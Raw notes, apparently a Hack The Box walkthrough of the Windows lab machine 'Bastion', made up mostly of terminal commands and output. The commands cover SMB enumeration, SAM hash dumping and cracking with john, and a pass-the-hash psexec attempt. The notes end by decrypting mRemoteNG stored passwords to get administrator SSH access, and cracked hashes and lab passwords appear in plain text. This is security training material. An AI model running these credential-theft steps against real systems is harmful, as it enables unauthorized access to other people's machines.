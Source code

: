 PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m28s, deviation: 34m36s, median: 2m30s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-19T16:38:26+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-19T15:38:27
|_  start_date: 2021-02-19T15:37:39




kali@kali:~/htb/boxes/bastion/10.10.10.134$ nmap --script smb-enum* -p139,445 10.10.10.134                                                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-19 16:36 CET
Nmap scan report for 10.10.10.134
Host is up (0.096s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-sessions: 
|_  <nobody>

Nmap done: 1 IP address (1 host up) scanned in 35.14 seconds



 Windows Server 2016 Standard 14393

 kali@kali:~/htb/boxes/bastion/10.10.10.134$ smbclient -L 10.10.10.134
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.



kali@kali:~/htb/boxes/bastion/10.10.10.134$ smbmap -H 10.10.10.134 -u Aadasdsad
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134                                      
[|] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\LDGEMGNIRC, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


![](2021-02-19-16-54-36.png)


![](2021-02-19-16-56-17.png)


sudo mount -t cifs -o username=anon //10.10.10.134/Backups smb


![](2021-02-19-21-35-46.png)

![](2021-02-19-21-35-55.png)

![](2021-02-19-21-39-41.png)


samdump2 SYSTEM SAM -o sam.out


john --format=NT -w ~/htb/rockyou.txt sam.out

kali@kali:~/htb/boxes/bastion/10.10.10.134$ john --show sam.out 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje::1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left




kali@kali:~/htb/boxes/bastion/10.10.10.134$ psexec.py L4mpje@10.10.10.134 -hashes aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.134.....
[-] share 'ADMIN$' is not writable.
[*] Found writable share Backups
[*] Uploading file RLYbIjxI.exe
[*] Opening SVCManager on 10.10.10.134.....
[-] Error opening SVCManager on 10.10.10.134.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

![](2021-02-19-21-52-08.png)


bureaulampje


![](2021-02-19-21-53-14.png)


l4mpje@BASTION c:\Windows>systeminfo                                                                                                                          
ERROR: Access denied 


C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
C:\Windows\Panther\setupinfo


"%userprofile%\AppData\Roaming\mRemoteNG\confCons


PS C:\users\L4mpje\AppData\Roaming\mRemoteNG> dir                                                                                                             
                                                                                                                                                              
                                                                                                                                                              
    Directory: C:\users\L4mpje\AppData\Roaming\mRemoteNG                                                                                                      
                                                                                                                                                              
                                                                                                                                                              
Mode                LastWriteTime         Length Name                                                                                                         
----                -------------         ------ ----                                                                                                         
d-----        22-2-2019     14:01                Themes                                                                                                       
-a----        22-2-2019     14:03           6316 confCons.xml                                                                                                 
-a----        22-2-2019     14:02           6194 confCons.xml.20190222-1402277353.backup                                                                      
-a----        22-2-2019     14:02           6206 confCons.xml.20190222-1402339071.backup                                                                      
-a----        22-2-2019     14:02           6218 confCons.xml.20190222-1402379227.backup                                                                      
-a----        22-2-2019     14:02           6231 confCons.xml.20190222-1403070644.backup                                                                      
-a----        22-2-2019     14:03           6319 confCons.xml.20190222-1403100488.backup                                                                      
-a----        22-2-2019     14:03           6318 confCons.xml.20190222-1403220026.backup                                                                      
-a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403261268.backup                                                                      
-a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403272831.backup                                                                      
-a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403433299.backup                                                                      
-a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403486580.backup                                                                      
-a----        22-2-2019     14:03             51 extApps.xml                                                                                                  
-a----        22-2-2019     14:03           5217 mRemoteNG.log                                                                                                
-a----        22-2-2019     14:03           2245 pnlLayout.xml                                                                                                
                                                                  

https://github.com/kmahyyg/mremoteng-decrypt/releases/download/v1/decipher_mremoteng.jar


java -jar decipher_mremoteng.jar "yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
User Input: yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Use default password for cracking...
Decrypted Output: bureaulampje


java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
User Input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted Output: thXLHM96BeKL0ER2


ssh Administrator@10.10.10.134
thXLHM96BeKL0ER2


